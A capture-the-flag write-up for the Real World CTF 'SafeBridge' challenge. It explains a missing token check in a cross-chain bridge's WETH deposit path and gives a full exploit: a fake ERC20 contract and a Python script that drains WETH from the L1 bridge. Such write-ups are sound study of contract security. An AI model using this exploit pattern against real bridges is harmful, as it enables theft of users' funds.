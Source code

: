 ```yaml
---
title: Real World CTF 6th – SafeBridge
date: '2024-01-29'
draft: false
authors: ['yanhu']
tags:
  [
    'Blockchain',
    'Real World CTF 6th',
    'Web3',
    'Solidity',
    'Smart Contract',
    'Cross Chain',
  ]
summary: 'Exploiting cross-chain bridge vulnerabilities to drain tokens from the bridge.'
canonicalUrl: 'https://yanhuijessica.github.io/Chictf-Writeups/blockchain/safebridge'
---
```


## SafeBridge (Blockchain, 17 Solves)

> I’ve crafted what I believed to be an ultra-safe token bridge. Don’t believe it?
>
> [Attachment](https://github.com/YanhuiJessica/Chictf-Writeups/raw/master/docs/blockchain/static/safebridge.zip)

This challenge is derived from [Enterprise Blockchain](https://yanhuijessica.github.io/Chictf-Writeups/blockchain/paradigm/enterprise_blockchain/) in Paradigm CTF 2023. The `CrossDomainMessenger.sendMessage()` function, which can be used for sending cross-chain messages, is still publicly available. The difference is that when finalizing a cross-chain token transfer, it will verify whether the initiator of the cross-chain message is the bridge on the corresponding chain. Thus, cross-chain token transfers are only possible via `L1ERC20Bridge.depositERC20() / L1ERC20Bridge.depositERC20To()` and `L2ERC20Bridge.withdraw() / L2ERC20Bridge.withdrawTo()`:

```js
function finalizeERC20Withdrawal(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
    public
    onlyFromCrossDomainAccount(l2TokenBridge)
{
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] - _amount;
    IERC20(_l1Token).safeTransfer(_to, _amount);
    emit ERC20WithdrawalFinalized(_l1Token, _l2Token, _from, _to, _amount);
}

modifier onlyFromCrossDomainAccount(address _sourceDomainAccount) {
    require(msg.sender == address(getCrossDomainMessenger()), "messenger contract unauthenticated");

    require(
        getCrossDomainMessenger().xDomainMessageSender() == _sourceDomainAccount,
        "wrong sender of cross-domain message"
    );

    _;
}
```

To withdraw WETH from L1Bridge, we need to invoke the `L2ERC20Bridge.withdraw()` function. In `_initiateWithdrawal()`, `l1Token` is read from `_l2Token`. Since the `_l2Token` provided by users could be a custom token, then only the value of `L1ERC20Bridge.deposits[weth][_l2Token]` should not be less than the amount to be transferred.

```js
function withdraw(address _l2Token, uint256 _amount) external virtual {
    _initiateWithdrawal(_l2Token, msg.sender, msg.sender, _amount);
}

function _initiateWithdrawal(address _l2Token, address _from, address _to, uint256 _amount) internal {
    IL2StandardERC20(_l2Token).burn(msg.sender, _amount);

    address l1Token = IL2StandardERC20(_l2Token).l1Token();
    bytes memory message;
    if (_l2Token == Lib_PredeployAddresses.L2_WETH) {
        message = abi.encodeWithSelector(IL1ERC20Bridge.finalizeWethWithdrawal.selector, _from, _to, _amount);
    } else {
        message = abi.encodeWithSelector(
            IL1ERC20Bridge.finalizeERC20Withdrawal.selector, l1Token, _l2Token, _from, _to, _amount
        );
    }

    sendCrossDomainMessage(l1TokenBridge, message);

    emit WithdrawalInitiated(l1Token, _l2Token, msg.sender, _to, _amount);
}
```

When initiating a transfer from L1 to L2, if `_l1Token` is `weth`, the corresponding amount of `L2_WETH` will be minted in `L2ERC20Bridge.finalizeDeposit()`. However, `_l2Token` may not be `L2_WETH`. If `_l2Token` is a custom token controlled by the player, not only can player obtain `L2_WETH`, but `deposits[weth][_l2Token]` will also increase:

```js
function depositERC20(address _l1Token, address _l2Token, uint256 _amount) external virtual {
    _initiateERC20Deposit(_l1Token, _l2Token, msg.sender, msg.sender, _amount);
}

function _initiateERC20Deposit(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        internal
{
    IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

    bytes memory message;
    if (_l1Token == weth) { // @audit-issue no check if _l2Token is L2_WETH
        message = abi.encodeWithSelector(
            IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
        );
    } else {
        message =
            abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
    }

    sendCrossDomainMessage(l2TokenBridge, message);
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

    emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
}
```

Since `deposits[weth][L2_WETH]` already has a value, we can drain WETH in l1Bridge with `L2_WETH` and custom `_l2Token`.

### Exploitation

```js
contract FakeL2StandardERC20 is L2StandardERC20 {
    constructor(address _l1Token) L2StandardERC20(_l1Token, "FAKE", "FAKE") {}

    function mint(address _to, uint256 _amount) public override {
        _mint(_to, _amount);
    }
}
```

```py
import pwn
from cheb3 import Connection
from cheb3.utils import load_compiled

fake_abi, fake_bin = load_compiled('L2StandardERC20.sol', 'FakeL2StandardERC20')
challenge_abi, _ = load_compiled('Challenge.sol')
weth_abi, _ = load_compiled('WETH.sol')
l1bridge_abi, _ = load_compiled('L1ERC20Bridge.sol')
l2bridge_abi, _ = load_compiled('L2ERC20Bridge.sol')

L2_ERC20_BRIDGE = "0x420000000000000000000000000000000000baBe"
L2_WETH = "0xDeadDeAddeAddEAddeadDEaDDEAdDeaDDeAD0000"
AMOUNT = int(2e18)

HOST = "47.251.56.125"
PORT = 1337
TOKEN = "<team-token>"
svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"token?", TOKEN)
svr.sendlineafter(b"action?", b"1")

svr.recvuntil(b"rpc endpoints:")
l1 = Connection(svr.recvline_contains(b"l1").replace(b"-", b"").strip().decode())
l2 = Connection(svr.recvline_contains(b"l2").replace(b"-", b"").strip().decode())

priv = svr.recvline_contains(b"private").split(b":")[-1].strip().decode()
challenge_addr = svr.recvline_contains(b"challenge").split(b":")[-1].strip().decode()
svr.close()

l1account = l1.account(priv)
l2account = l2.account(priv)

challenge = l1.contract(l1account, address=challenge_addr, abi=challenge_abi)
weth_addr = challenge.caller.WETH()
l1bridge_addr = challenge.caller.BRIDGE()

# deploy the custom token
fake = l2.contract(l2account, abi=fake_abi, bytecode=fake_bin)
fake.deploy(weth_addr)

# obtain L2_WETH and increase deposits[weth][fake]
weth = l1.contract(l1account, address=weth_addr, abi=weth_abi)
weth.functions.deposit().send_transaction(value=AMOUNT)
weth.functions.approve(l1bridge_addr, AMOUNT).send_transaction()
l1bridge = l1.contract(l1account, address=l1bridge_addr, abi=l1bridge_abi)
l1bridge.functions.depositERC20(weth_addr, fake.address, AMOUNT).send_transaction()

# withdraw
fake.functions.mint(l2account.address, AMOUNT).send_transaction()
fake.functions.approve(L2_ERC20_BRIDGE, AMOUNT).send_transaction()
l2bridge = l2.contract(l2account, address=L2_ERC20_BRIDGE, abi=l2bridge_abi)
l2bridge.functions.withdraw(fake.address, AMOUNT).send_transaction()

l2weth = l2.contract(l2account, address=L2_WETH, abi=weth_abi)
l2weth.functions.approve(L2_ERC20_BRIDGE, AMOUNT).send_transaction()
l2bridge.functions.withdraw(L2_WETH, AMOUNT).send_transaction()

assert challenge.caller.isSolved()

svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"token?", TOKEN)
svr.sendlineafter(b"action?", b"3")
svr.interactive()
```

Flag: `rwctf{yoU_draINED_BriD6E}`
